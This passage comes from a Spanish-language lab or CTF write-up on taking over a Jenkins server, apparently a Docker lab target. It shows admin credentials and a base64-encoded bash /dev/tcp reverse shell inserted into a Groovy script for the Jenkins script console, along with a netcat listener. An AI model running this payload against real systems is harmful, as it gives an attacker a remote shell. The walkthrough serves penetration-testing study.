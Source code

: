 Ingresamos las passwords:
```bash
username: jenkins-admin
password: cassandra
```

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Una ves tieniendo el fragmento de codigo con nuestra **revershell** que apunta a nuestra maquina de atacante y estando en escucha por el puerto 443

Ahora estamos dentro del panel administrativo y en esta ruta podremos ejecutar comandos:
```bash
http://172.17.0.2:8080/script
```

[Jenkins RCE with Groovy Script](https://cloud.hacktricks.wiki/en/pentesting-ci-cd/jenkins-security/jenkins-rce-with-groovy-script.html) Aqui tenemos una explicacion detallada de como ejecutar una revershell para ganar acceso al target

Primero tenemos que convertir nuestro **oneLine** en **base64** para ajustarlo al fragmento de codigo
```bash
echo "bash -c 'exec bash -i &>/dev/tcp/172.17.0.1/443 <&1'" | base64

# Resultado
YmFzaCAtYyAnZXhlYyBiYXNoIC1pICY+L2Rldi90Y3AvMTcyLjE3LjAuMS80NDMgPCYxJwo=
```

Tendremos esta cadena en base 64 la cual la acoplamos al codigo quedando asi:
```bash
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnZXhlYyBiYXNoIC1pICY+L2Rldi90Y3AvMTcyLjE3LjAuMS80NDMgPCYxJwo=}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
### Intrusion
Modo escucha
```bash
nc -nlvp PORT
```

En este cado solo damos click a este boton para ejecutar la instruccion y ganar acceso al **target**
```bash
# Comandos para explotación
Ejecutar
```

---
